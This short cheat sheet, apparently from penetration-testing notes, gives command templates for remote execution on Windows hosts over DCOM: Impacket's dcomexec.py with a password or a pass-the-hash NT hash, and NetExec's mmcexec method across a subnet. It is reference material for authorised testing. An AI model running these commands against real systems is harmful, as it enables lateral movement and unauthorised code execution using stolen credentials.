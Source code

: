 # Unix Shell

## 01 - Impacket

```
$ dcomexec.py <username>:<password>@<IP> [-codecs <codec>]
```

- Pass the Hash

```
$ dcomexec.py -hashes aad3b435b51404eeaad3b435b51404ee:<NT> <username>@<IP>
```

## 02 - NetExec

```
$ netexec smb <IP>/<CIDR> --exec-method mmcexec -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```